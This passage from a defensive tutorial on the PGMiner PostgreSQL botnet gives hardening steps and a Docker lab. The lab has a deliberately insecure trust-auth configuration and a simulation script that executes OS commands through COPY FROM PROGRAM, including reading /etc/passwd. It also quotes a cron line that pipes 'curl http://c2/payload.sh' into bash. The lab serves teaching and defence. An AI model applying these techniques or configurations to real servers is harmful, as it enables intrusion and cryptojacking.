

### Defense 1: Firewall — Block Port 5432 from the Internet

This single step stops the attack at Phase 1. If the scanner cannot reach port 5432, nothing else matters.

```bash
# Using UFW (Ubuntu/Debian):
sudo ufw default deny incoming
sudo ufw default allow outgoing
sudo ufw allow ssh
sudo ufw allow 80/tcp
sudo ufw allow 443/tcp
# DO NOT add: sudo ufw allow 5432/tcp
sudo ufw enable

# If you need remote DB access, allow only specific IPs:
sudo ufw allow from 203.0.113.50 to any port 5432

# Using iptables directly:
sudo iptables -A INPUT -p tcp --dport 5432 -s 203.0.113.50 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 5432 -j DROP
```

### Defense 2: Strong Password + SCRAM-SHA-256

```bash
# Set a strong password for the postgres user:
sudo -u postgres psql -c "ALTER USER postgres WITH PASSWORD 'USE-A-REAL-STRONG-PASSWORD-HERE';"

# In pg_hba.conf, enforce scram-sha-256:
# Replace any line that says 'trust' or 'md5' with:
# host  all  all  127.0.0.1/32  scram-sha-256

# In postgresql.conf, set the default auth method:
# password_encryption = scram-sha-256
```

### Defense 3: Bind to Localhost Only

```conf
# In postgresql.conf:
listen_addresses = 'localhost'
```

If you need remote access, use an **SSH tunnel** instead of exposing PostgreSQL directly:

```bash
# From your local machine:
ssh -L 5432:localhost:5432 user@your-vps-ip
# Now connect to localhost:5432 on your local machine
# Traffic goes through the encrypted SSH tunnel
```

### Defense 4: Enforce Least Privilege (Never Expose Superuser to Apps)

Superusers bypass all privilege checks, so `REVOKE` commands cannot restrict a compromised `postgres` account. The robust defense is ensuring external applications and remote clients **never** connect using a superuser or roles with `pg_execute_server_program`:

```sql
-- 1. Check existing roles to verify no application role has execution privileges:
SELECT rolname, rolsuper,
       pg_has_role(rolname, 'pg_execute_server_program', 'member') AS can_exec_program
FROM pg_roles;

-- 2. Create application-specific roles with minimal privileges:
CREATE ROLE app_user WITH LOGIN PASSWORD 'USE-A-STRONG-PASSWORD-HERE';
GRANT CONNECT ON DATABASE myapp TO app_user;
GRANT SELECT, INSERT, UPDATE, DELETE ON ALL TABLES IN SCHEMA public TO app_user;
-- app_user CANNOT run COPY FROM PROGRAM or execute OS commands
```

### Defense 5: Enable Logging and Monitoring

```conf
# In postgresql.conf:
log_connections = on
log_disconnections = on
log_line_prefix = '%m [%p] %q%u@%d %h '
log_statement = 'ddl'
log_min_duration_statement = 1000  # Log slow queries (ms)

# Connection rate limiting in pg_hba.conf is not built-in,
# but fail2ban can monitor PostgreSQL logs for brute-force:
```

```bash
# Install fail2ban for PostgreSQL brute-force protection:
sudo apt install fail2ban

# Create /etc/fail2ban/filter.d/postgresql.conf:
cat << 'EOF' | sudo tee /etc/fail2ban/filter.d/postgresql.conf
[Definition]
failregex = ^.* <HOST> FATAL:  password authentication failed for user .*
            ^.* <HOST> FATAL:  no pg_hba.conf entry for host .*
            ^.* <HOST> FATAL:  role ".*" does not exist
ignoreregex =
EOF

# Create /etc/fail2ban/jail.d/postgresql.conf:
cat << 'EOF' | sudo tee /etc/fail2ban/jail.d/postgresql.conf
[postgresql]
enabled  = true
port     = 5432
filter   = postgresql
logpath  = /var/log/postgresql/postgresql-*-main.log
maxretry = 5
bantime  = 3600
EOF

sudo systemctl restart fail2ban
```

### Defense 6: Resource Limits with cgroups

Even if an attacker gets through, resource limits can prevent a miner from consuming all CPU:

```bash
# Limit PostgreSQL to 50% CPU using systemd cgroups:
sudo systemctl edit postgresql

# Add these lines:
# [Service]
# CPUQuota=50%
# MemoryMax=2G
```

### Defense 7: Egress Filtering

Block the server from making outbound connections to unknown hosts. This prevents downloaded stagers from reaching C2 servers or downloading mining binaries, and stops miners from connecting to remote mining pools.

```bash
# Allow loopback interface:
sudo iptables -A OUTPUT -o lo -j ACCEPT

# Allow established and related connections:
sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

# Allow DNS queries (UDP/TCP 53):
sudo iptables -A OUTPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 53 -j ACCEPT

# Restrict outbound HTTP/HTTPS and known mining pool ports (e.g., 3333, 4444, 14444):
# Allow only verified outbound repositories/APIs, drop unauthorized traffic:
sudo iptables -A OUTPUT -p tcp -m multiport --dports 80,443,3333,4444,14444 -j REJECT
```

### Complete Hardening Checklist



---

## Part 5 — Hands-On Lab: Simulate a PGMiner Attack

> **⚠️ DISCLAIMER**: This lab is for **educational purposes only**. Never run this against systems you do not own. The simulated attack uses **harmless commands** — no actual malware or cryptocurrency miners are involved. The goal is to understand each step of the attack chain by observing it firsthand.

This lab has two parts:
1. **Set up a deliberately vulnerable PostgreSQL VPS** (using Docker for isolation)
2. **Run a simulated PGMiner attack script** that replicates each phase with safe, observable commands

### Lab Setup: The Vulnerable VPS

We use Docker to create an isolated, deliberately misconfigured PostgreSQL server. This is safer than misconfiguring an actual VPS. You do **not** need `psql` installed locally — all commands run inside the container via `docker exec`.

Create a directory for the lab and add these three files:

**File 1 — `pg_hba.conf`** (deliberately insecure authentication):

```conf
# TYPE  DATABASE  USER  ADDRESS       METHOD
# DELIBERATELY INSECURE — trust auth for all connections
local   all       all                 trust
host    all       all   0.0.0.0/0     trust
host    all       all   ::/0          trust
```

**File 2 — `init.sql`** (dummy application database):

```sql
CREATE DATABASE myapp;
\c myapp;

CREATE TABLE users (
    id SERIAL PRIMARY KEY,
    username VARCHAR(50),
    email VARCHAR(100),
    created_at TIMESTAMP DEFAULT NOW()
);

INSERT INTO users (username, email) VALUES
('alice', 'alice@example.com'),
('bob', 'bob@example.com'),
('charlie', 'charlie@example.com');
```

**File 3 — `docker-compose.yml`** (the vulnerable server):

```yaml
version: '3.8'
services:
  vulnerable-postgres:
    image: postgres:15
    container_name: pgminer-lab-db
    environment:
      POSTGRES_PASSWORD: postgres
    ports:
      - "15432:5432"
    volumes:
      - ./pg_hba.conf:/var/lib/postgresql/pg_hba.conf
      - ./init.sql:/docker-entrypoint-initdb.d/init.sql
    command: >
      postgres
      -c hba_file=/var/lib/postgresql/pg_hba.conf
      -c listen_addresses='*'
      -c log_connections=off
```

**Start the lab:**

```bash
cd lab
docker compose up -d
sleep 5

# Verify — should print the PostgreSQL version:
docker exec pgminer-lab-db psql -U postgres -c "SELECT version();"
```

### The Attack Simulation Script

**File 4 — `attack-simulation.sh`** — This script simulates every phase of the PGMiner attack using `docker exec` to run commands inside the container. No local `psql` needed.

```bash
#!/bin/bash
# File: attack-simulation.sh
# Purpose: Simulate PGMiner attack phases with safe, observable commands
# Uses docker exec — no local psql required

set -e

CONTAINER="pgminer-lab-db"

# Colors
RED='\033[0;31m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
NC='\033[0m'
BOLD='\033[1m'

run_sql_file() {
    docker exec -i $CONTAINER psql -U postgres 2>&1
}

print_phase() {
    echo ""
    echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
    echo -e "${BOLD}${1}${NC}"
    echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
    echo ""
}

# ============================================================
# PHASE 1: RECONNAISSANCE
# ============================================================
print_phase "PHASE 1: RECONNAISSANCE — Port Scanning"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Scanning for PostgreSQL on port 15432..."
echo ""

if (nc -zv 127.0.0.1 15432 2>&1) || (timeout 2 bash -c "</dev/tcp/127.0.0.1/15432" 2>/dev/null); then
    echo ""
    echo -e "${RED}  ✅ Port 15432 is OPEN — target added to brute-force queue${NC}"
else
    echo -e "${GREEN}  ❌ Port is CLOSED${NC}"
    exit 1
fi
echo ""

# ============================================================
# PHASE 2: BRUTE-FORCE
# ============================================================
print_phase "PHASE 2: BRUTE-FORCE — Password Cracking"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Trying default credentials..."
echo ""

if docker exec $CONTAINER psql -U postgres -c "SELECT 'AUTH_SUCCESS';" > /dev/null 2>&1; then
    echo -e "  ${RED}✅ SUCCESS — trust authentication, no password needed!${NC}"
    echo ""
    echo -e "  ${RED}🚨 BRUTE-FORCE SUCCESSFUL${NC}"
    echo "  User: postgres (superuser)"
    echo "  Auth: trust (no password required)"
else
    echo "  ❌ Failed"
    exit 1
fi
echo ""

# ============================================================
# PHASE 3: INITIAL ACCESS — COPY FROM PROGRAM
# ============================================================
print_phase "PHASE 3: INITIAL ACCESS — COPY FROM PROGRAM Exploitation"

echo -e "${BOLD}Step 3a: Identify the operating system${NC}"
echo -e "${RED}🔴 ATTACKER ACTION:${NC} COPY FROM PROGRAM 'uname -a'"
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'uname -a';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""
echo -e "${BOLD}Step 3b: Identify the current user${NC}"
echo -e "${RED}🔴 ATTACKER ACTION:${NC} COPY FROM PROGRAM 'id'"
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""
echo -e "${BOLD}Step 3c: List running processes${NC}"
echo -e "${RED}🔴 ATTACKER ACTION:${NC} COPY FROM PROGRAM 'ps aux | head -10'"
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'ps aux | head -10';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""
echo -e "${BOLD}Step 3d: Read sensitive files${NC}"
echo -e "${RED}🔴 ATTACKER ACTION:${NC} COPY FROM PROGRAM 'cat /etc/passwd | head -5'"
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'cat /etc/passwd | head -5';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""

# ============================================================
# PHASE 4: PAYLOAD STAGING
# ============================================================
print_phase "PHASE 4: PAYLOAD STAGING — Simulated Payload Download"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Simulating payload drop (harmless marker file)"
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'echo "SIMULATED_PGMINER_PAYLOAD_$(date +%s)" > /tmp/pgminer_lab_marker.txt && cat /tmp/pgminer_lab_marker.txt';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""

# ============================================================
# PHASE 5: ENVIRONMENT PREPARATION
# ============================================================
print_phase "PHASE 5: ENVIRONMENT PREPARATION — Checking for Competitors"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Scanning for competing miners..."
echo ""

KNOWN_MINERS=("kdevtmpfsi" "kinsing" "xmrig" "kthreaddi" "sysrv")

for miner in "${KNOWN_MINERS[@]}"; do
    # Use bracket trick [k]devtmpfsi so grep doesn't match itself
    first_char="${miner:0:1}"
    rest="${miner:1}"
    pattern="[${first_char}]${rest}"
    result=$(docker exec $CONTAINER bash -c "ps aux | grep '$pattern' | head -1" 2>/dev/null | tr -d '[:space:]')
    if [ -z "$result" ]; then
        echo "  ✓ $miner — not found (clean)"
    else
        echo -e "  ${RED}✗ $miner — FOUND — would be killed${NC}"
    fi
done

echo ""

# ============================================================
# PHASE 6: PERSISTENCE
# ============================================================
print_phase "PHASE 6: PERSISTENCE — Checking Crontab"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Checking current crontab..."
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'crontab -l 2>&1 || echo "No crontab - would install: * * * * * curl -s http://c2/payload.sh | bash"';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""
echo "  Real PGMiner would install:"
echo "  • Cron: * * * * * curl -s http://c2/payload.sh | bash"
echo "  • Hidden files in /tmp/.X11-unix/"
echo "  • Process disguised as [kworker/0:2]"
echo ""

# ============================================================
# PHASE 7: MINING (SIMULATED)
# ============================================================
print_phase "PHASE 7: CRYPTO MINING — Simulated CPU Load"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Running 3-second CPU stress (simulating XMRig)..."
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'echo "Mining started..." && timeout 3 dd if=/dev/urandom bs=1M count=100 of=/dev/null 2>&1 && echo "Mining simulation complete (3s)"';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""

# ============================================================
# PHASE 8: LATERAL SPREAD
# ============================================================
print_phase "PHASE 8: LATERAL SPREAD — Network Recon"

echo -e "${RED}🔴 ATTACKER ACTION:${NC} Gathering network info for lateral movement..."
echo ""

run_sql_file << 'SQL'
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec (cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'echo "=== IP Addresses ===" && hostname -I && echo "=== Hostname ===" && hostname';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;
SQL

echo ""

# ============================================================
# CLEANUP
# ============================================================
print_phase "CLEANUP"

docker exec $CONTAINER bash -c "rm -f /tmp/pgminer_lab_marker.txt" 2>/dev/null
echo "  ✓ Marker file removed"

echo ""
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo -e "${BOLD}${GREEN}✅ ALL 8 PHASES COMPLETED SUCCESSFULLY${NC}"
echo "━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"
echo ""
echo "  Phase 1: ✅ Reconnaissance  — Port 15432 open"
echo "  Phase 2: ✅ Brute-Force     — Trust auth, no password needed"
echo "  Phase 3: ✅ Initial Access  — COPY FROM PROGRAM executed OS commands"
echo "  Phase 4: ✅ Payload Staging — File written to /tmp/"
echo "  Phase 5: ✅ Env Preparation — Scanned for competing miners"
echo "  Phase 6: ✅ Persistence     — Crontab accessible"
echo "  Phase 7: ✅ Mining          — CPU stress test ran successfully"
echo "  Phase 8: ✅ Lateral Spread  — Network info gathered"
echo ""
echo "  To destroy the lab: docker compose down -v"
```

### What Happens at Each Step — Detailed Breakdown

Let us trace through the simulation line by line, connecting each action to the real PGMiner behavior.

```mermaid
sequenceDiagram
    participant A as Attacker (Script)
    participant PG as PostgreSQL (Lab)
    participant OS as Container OS
    participant RealPG as What PGMiner Would Do

    rect rgb(52, 152, 219)
        Note over A,RealPG: Phase 1 — Reconnaissance
        A->>PG: nc -zv 127.0.0.1 15432
        PG->>A: Connection accepted
        Note over RealPG: Real PGMiner: masscan<br/>millions of IPs
    end

    rect rgb(230, 126, 34)
        Note over A,RealPG: Phase 2 — Brute-Force
        A->>PG: docker exec psql -U postgres
        PG->>A: Authentication OK (trust)
        Note over RealPG: Real PGMiner: tries 5-10<br/>common passwords
    end

    rect rgb(231, 76, 60)
        Note over A,RealPG: Phase 3 — Initial Access
        A->>PG: COPY cmd_exec FROM PROGRAM 'uname -a'
        PG->>OS: spawns sh -c uname -a
        OS->>PG: Linux kernel + arch output
        PG->>A: Returns OS information
        Note over RealPG: Real PGMiner: runs<br/>curl c2/payload.sh piped to bash
    end

    rect rgb(142, 68, 173)
        Note over A,RealPG: Phase 4-6 — Payload + Persistence
        A->>PG: COPY FROM PROGRAM 'echo marker into /tmp/...'
        PG->>OS: Creates marker file
        Note over RealPG: Real PGMiner: downloads XMRig,<br/>installs cron job,<br/>kills competing miners
    end

    rect rgb(44, 62, 80)
        Note over A,RealPG: Phase 7 — Mining
        A->>PG: COPY FROM PROGRAM 'dd if=/dev/urandom...'
        PG->>OS: Brief CPU stress (3 seconds)
        Note over RealPG: Real PGMiner: XMRig runs<br/>indefinitely at 75% CPU
    end
```

### Lab Summary Table

| Phase | Simulation Command | Real PGMiner Action | Damage Level |
|-------|-------------------|---------------------|--------------|
| 1. Recon | `nc -zv target 5432` | masscan entire internet for port 5432 | 🟡 Low |
| 2. Brute-force | `psql -U postgres` with common passwords | Same, but automated across thousands of IPs | 🟠 Medium |
| 3. Initial access | `COPY FROM PROGRAM 'uname -a'` | `COPY FROM PROGRAM 'curl c2/payload.sh \| bash'` | 🔴 Critical |
| 4. Payload | `echo marker > /tmp/file` | Downloads XMRig binary from C2 server | 🔴 Critical |
| 5. Preparation | `ps aux \| grep` known miner names | `pkill -9` competing miners, disable security | 🔴 Critical |
| 6. Persistence | Display persistence methods | Install cron job + systemd service + watchdog | 🔴 Critical |
| 7. Mining | 3-second `dd` CPU stress | XMRig at 75% CPU indefinitely | 🔴 Critical |
| 8. Spread | `hostname -I` network recon | Scan subnet + internet for more targets | 🔴 Critical |

### Tearing Down the Lab

```bash
# Stop and remove the vulnerable container:
cd lab
docker compose down -v

# Remove all lab files:
cd ..
rm -rf lab

echo "Lab environment completely removed."
```

---

## Final Thoughts

PGMiner is not a sophisticated attack. It does not exploit a zero-day vulnerability. It does not use advanced evasion techniques. It simply exploits the gap between what PostgreSQL **can** do and what administrators **let** it do.

The full defense is straightforward:

1. **Never expose port 5432 to the internet** — use a firewall
2. **Never use weak passwords** — use long, random passwords with SCRAM-SHA-256
3. **Never use trust authentication** for remote connections
4. **Never expose superusers or execution roles to applications** — enforce least privilege
5. **Monitor CPU usage** — a sudden spike to 75%+ is a red flag
6. **Log connections and queries** — failed auth attempts, connection events, DDL statements



The entire attack chain breaks at any single point. Fix any one of these and PGMiner cannot complete its mission. Fix all of them and your PostgreSQL server is genuinely hardened.

---

## References

- [Palo Alto Networks Unit 42 — PGMiner: New Cryptocurrency Mining Botnet Delivered via PostgreSQL (December 10, 2020)](https://unit42.paloaltonetworks.com/pgminer-postgresql-cryptocurrency-mining-botnet/)
- [PostgreSQL Documentation — COPY FROM PROGRAM](https://www.postgresql.org/docs/current/sql-copy.html)
- [CVE-2019-9193 — NIST NVD Entry (Disputed)](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)
- [PostgreSQL Security Hardening Guide](https://www.postgresql.org/docs/current/auth-pg-hba-conf.html)
- [XMRig — Open Source Monero Miner (Legitimate Tool Abused by Attackers)](https://github.com/xmrig/xmrig)
